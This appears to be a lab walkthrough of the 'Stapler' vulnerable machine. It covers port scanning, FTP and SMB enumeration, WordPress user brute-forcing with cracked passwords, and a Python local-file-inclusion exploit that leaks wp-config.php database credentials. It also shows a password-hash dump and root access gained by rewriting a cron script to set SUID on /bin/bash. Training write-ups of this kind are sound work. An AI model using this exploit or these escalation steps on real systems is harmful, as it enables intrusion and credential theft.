



# Stapler

***

IP=192.168.220.148

## NMAP

| PORT      | STATE | SERVICE     |
| --------- | ----- | ----------- |
| 21/tcp    | open  | ftp         |
| 22/tcp    | open  | ssh         |
| 53/tcp    | open  | domain      |
| 80/tcp    | open  | http        |
| 139/tcp   | open  | netbios-ssn |
| 666/tcp   | open  | doom        |
| 3306/tcp  | open  | mysql       |
| 12380/tcp | open  | unknown     |

Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn

```bash
nmap -sCV $IP -p21,22,80,53,139,666,3306,12380 -Pn
```

```perl
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.234
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8121cea11a05b1694f4ded8028e89905 (RSA)
|   256 5ba5bb67911a51c2d321dac0caf0db9e (ECDSA)
|_  256 6d01b773acb0936ffab989e6ae3cabd3 (ED25519)
53/tcp    open  tcpwrapped
80/tcp    open  http        PHP cli server 5.5 or later
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
139/tcp   open  netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
666/tcp   open  doom?
| fingerprint-strings: 
|   NULL: 
|     message2.jpgUT 
|     QWux
|     "DL[E
|     #;3[
|     \xf6
|     u([r
|     qYQq
|     Y_?n2
|     3&M~{
|     9-a)T
|     L}AJ
|_    .npy.9"
3306/tcp  open  mysql       MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 8
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, SupportsTransactions, SupportsCompression, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, IgnoreSigpipes, InteractiveClient, LongPassword, ODBCClient, SupportsLoadDataLocal, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, FoundRows, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x1Cc#\x10\x05\x1C\x11\x0D\x0D\x7F?ud^jv&\x1C&J
|_  Auth Plugin Name: mysql_native_password
12380/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port666-TCP:V=7.93%I=7%D=10/19%Time=65318538%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2D58,"PK\x03\x04\x14\0\x02\0\x08\0d\x80\xc3Hp\xdf\x15\x81\xaa,\0\0\x
SF:152\0\0\x0c\0\x1c\0message2\.jpgUT\t\0\x03\+\x9cQWJ\x9cQWux\x0b\0\x01\x
SF:04\xf5\x01\0\0\x04\x14\0\0\0\xadz\x0bT\x13\xe7\xbe\xefP\x94\x88\x88A@\x
SF:a2\x20\x19\xabUT\xc4T\x11\xa9\x102>\x8a\xd4RDK\x15\x85Jj\xa9\"DL\[E\xa2
SF:\x0c\x19\x140<\xc4\xb4\xb5\xca\xaen\x89\x8a\x8aV\x11\x91W\xc5H\x20\x0f\
SF:xb2\xf7\xb6\x88\n\x82@%\x99d\xb7\xc8#;3\[\r_\xcddr\x87\xbd\xcf9\xf7\xae
SF:u\xeeY\xeb\xdc\xb3oX\xacY\xf92\xf3e\xfe\xdf\xff\xff\xff=2\x9f\xf3\x99\x
SF:d3\x08y}\xb8a\xe3\x06\xc8\xc5\x05\x82>`\xfe\x20\xa7\x05:\xb4y\xaf\xf8\x
SF:a0\xf8\xc0\^\xf1\x97sC\x97\xbd\x0b\xbd\xb7nc\xdc\xa4I\xd0\xc4\+j\xce\[\
SF:x87\xa0\xe5\x1b\xf7\xcc=,\xce\x9a\xbb\xeb\xeb\xdds\xbf\xde\xbd\xeb\x8b\
SF:xf4\xfdis\x0f\xeeM\?\xb0\xf4\x1f\xa3\xcceY\xfb\xbe\x98\x9b\xb6\xfb\xe0\
SF:xdc\]sS\xc5bQ\xfa\xee\xb7\xe7\xbc\x05AoA\x93\xfe9\xd3\x82\x7f\xcc\xe4\x
SF:d5\x1dx\xa2O\x0e\xdd\x994\x9c\xe7\xfe\x871\xb0N\xea\x1c\x80\xd63w\xf1\x
SF:af\xbd&&q\xf9\x97'i\x85fL\x81\xe2\\\xf6\xb9\xba\xcc\x80\xde\x9a\xe1\xe2
SF::\xc3\xc5\xa9\x85`\x08r\x99\xfc\xcf\x13\xa0\x7f{\xb9\xbc\xe5:i\xb2\x1bk
SF:\x8a\xfbT\x0f\xe6\x84\x06/\xe8-\x17W\xd7\xb7&\xb9N\x9e<\xb1\\\.\xb9\xcc
SF:\xe7\xd0\xa4\x19\x93\xbd\xdf\^\xbe\xd6\xcdg\xcb\.\xd6\xbc\xaf\|W\x1c\xf
SF:d\xf6\xe2\x94\xf9\xebj\xdbf~\xfc\x98x'\xf4\xf3\xaf\x8f\xb9O\xf5\xe3\xcc
SF:\x9a\xed\xbf`a\xd0\xa2\xc5KV\x86\xad\n\x7fou\xc4\xfa\xf7\xa37\xc4\|\xb0
SF:\xf1\xc3\x84O\xb6nK\xdc\xbe#\)\xf5\x8b\xdd{\xd2\xf6\xa6g\x1c8\x98u\(\[r
SF:\xf8H~A\xe1qYQq\xc9w\xa7\xbe\?}\xa6\xfc\x0f\?\x9c\xbdTy\xf9\xca\xd5\xaa
SF:k\xd7\x7f\xbcSW\xdf\xd0\xd8\xf4\xd3\xddf\xb5F\xabk\xd7\xff\xe9\xcf\x7fy
SF:\xd2\xd5\xfd\xb4\xa7\xf7Y_\?n2\xff\xf5\xd7\xdf\x86\^\x0c\x8f\x90\x7f\x7
SF:f\xf9\xea\xb5m\x1c\xfc\xfef\"\.\x17\xc8\xf5\?B\xff\xbf\xc6\xc5,\x82\xcb
SF:\[\x93&\xb9NbM\xc4\xe5\xf2V\xf6\xc4\t3&M~{\xb9\x9b\xf7\xda-\xac\]_\xf9\
SF:xcc\[qt\x8a\xef\xbao/\xd6\xb6\xb9\xcf\x0f\xfd\x98\x98\xf9\xf9\xd7\x8f\x
SF:a7\xfa\xbd\xb3\x12_@N\x84\xf6\x8f\xc8\xfe{\x81\x1d\xfb\x1fE\xf6\x1f\x81
SF:\xfd\xef\xb8\xfa\xa1i\xae\.L\xf2\\g@\x08D\xbb\xbfp\xb5\xd4\xf4Ym\x0bI\x
SF:96\x1e\xcb\x879-a\)T\x02\xc8\$\x14k\x08\xae\xfcZ\x90\xe6E\xcb<C\xcap\x8
SF:f\xd0\x8f\x9fu\x01\x8dvT\xf0'\x9b\xe4ST%\x9f5\x95\xab\rSWb\xecN\xfb&\xf
SF:4\xed\xe3v\x13O\xb73A#\xf0,\xd5\xc2\^\xe8\xfc\xc0\xa7\xaf\xab4\xcfC\xcd
SF:\x88\x8e}\xac\x15\xf6~\xc4R\x8e`wT\x96\xa8KT\x1cam\xdb\x99f\xfb\n\xbc\x
SF:bcL}AJ\xe5H\x912\x88\(O\0k\xc9\xa9\x1a\x93\xb8\x84\x8fdN\xbf\x17\xf5\xf
SF:0\.npy\.9\x04\xcf\x14\x1d\x89Rr9\xe4\xd2\xae\x91#\xfbOg\xed\xf6\x15\x04
SF:\xf6~\xf1\]V\xdcBGu\xeb\xaa=\x8e\xef\xa4HU\x1e\x8f\x9f\x9bI\xf4\xb6GTQ\
SF:xf3\xe9\xe5\x8e\x0b\x14L\xb2\xda\x92\x12\xf3\x95\xa2\x1c\xb3\x13\*P\x11
SF:\?\xfb\xf3\xda\xcaDfv\x89`\xa9\xe4k\xc4S\x0e\xd6P0");
Service Info: Host: RED; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: RED, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.9-Ubuntu)
|   Computer name: red
|   NetBIOS computer name: RED\x00
|   Domain name: \x00
|   FQDN: red
|_  System time: 2023-10-19T20:36:40+01:00
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-19T19:36:40
|_  start_date: N/A
```

## 21 - FTP

### Anonymous login

```bash
ftp $IP
```

```perl
 Harry, make sure to update the banner when you get a chance to show who has access here
```

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
```

```perl
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```

## 139 - smb

```bash
smbclient -L $IP -N
```

```perl
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	kathy           Disk      Fred, What are we doing here?
	tmp             Disk      All temporary files should be stored here
	IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
```

```bash
smbclient //$IP/kathy -N
```

```perl
kathy_stuff                         D        0  Sun Jun  5 17:02:27 2016
backup                              D        0  Sun Jun  5 17:04:14 2016
```

* todo-list.txt

```txt
I'm making sure to backup anything important for Initech, Kathy
```

* vsftpd.conf
* wordpress-4.tar.gz

## 12380


<figure><figcaption></figcaption></figure>

### Source code

```html
<!-- A message from the head of our HR department, Zoe, if you are looking at this, we want to hire you! -->
```


<figure><figcaption></figcaption></figure>

### https

```bash
gobuster dir -u https://$IP:12380 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 404 -x php,html,txt -k --wildcard
```

```perl
/index.html           (Status: 200) 
/announcements        (Status: 301) 
/javascript           (Status: 301)   
/robots.txt           (Status: 200) 
```

#### Robots.txt

```bash
Disallow: /admin112233/
Disallow: /blogblog/
```

#### /blogblog


<figure><figcaption></figcaption></figure>

```bash
whatweb https://$IP:12380/blogblog/
```

> Wordpress 4.2.1

```bash
wpscan --url https://192.168.220.148:12380/blogblog/ --disable-tls-checks --enumerate u
```

```txt
John Smith
john
garry
elly
peter
barry
heather
harry
scott
kathy
tim
```

```bash
wpscan --url https://192.168.220.148:12380/blogblog/ -P /usr/share/wordlists/rockyou.txt -t 50  --disable-tls-checks
```

```txt
[SUCCESS] - garry / football                              
[SUCCESS] - harry / monkey                                                    
[SUCCESS] - scott / cookie                                
[SUCCESS] - kathy / coolgirl 
```

```bash
wpscan --url https://192.168.220.148:12380/blogblog/ --disable-tls-checks --enumerate ap --plugins-detection aggressive
```


<figure><figcaption></figcaption></figure>

```bash
searchsploit advanced video
```

| Exploit                                                    | Path                 |
| ---------------------------------------------------------- | -------------------- |
| WordPress Plugin Advanced Video 1.0 - Local File Inclusion | php/webapps/39646.py |

#### Script

```python
import random
import urllib.request
import re
import ssl

# Ignore SSL certificate errors
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

url = "https://192.168.220.148:12380/blogblog/"  # insert HTTPS URL to WordPress

randomID = int(random.random() * 100000000000000000)

# Create a custom opener with SSL context
opener = urllib.request.build_opener(urllib.request.HTTPSHandler(context=context))

objHtml = opener.open(
    url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content = objHtml.readlines()
for line in content:
    numbers = re.findall(r'\d+', line.decode('utf-8'))
    id = numbers[-1]
    id = int(id) // 10

objHtml = opener.open(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
    if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line.decode('utf-8'):
        urls = re.findall('"(https?://.*?)"', line.decode('utf-8'))
        print(urllib.request.urlopen(urls[0]).read().decode('utf-8'))
```

```bash
curl "https://192.168.220.148:12380/blogblog/wp-content/uploads/677352971.jpeg" -k
```

```php
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');
```

## MySQL 3306

```bash
mysql -u root -p plbkac
```

```mysql
SHOW databases;
USE wordpress;
SHOW tables;
SELECT * from wp_users;
```

| user\_login | user\_pass                         |
| ----------- | ---------------------------------- |
| John        | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly        | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter       | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry       | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather     | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry       | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry       | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott       | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy       | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim         | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE         | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave        | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon       | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby        | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki       | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam         | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> john:incorrect

## WordPress


<figure><figcaption></figcaption></figure>



## PrivEsc

### cron

```txt
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
```

```bash
echo 'chmod 4777 /bin/bash' > /usr/local/sbin/cron-logrotate.sh
bash -p
```

### kernel

Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target\_offset' Out-of-Bounds Privilege Escalation

[4.4.0-21-generic](https://www.exploit-db.com/exploits/40049)

Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF\_PROG\_LOAD) Privilege Escalation

[https://www.exploit-db.com/exploits/39772](https://www.exploit-db.com/exploits/39772)
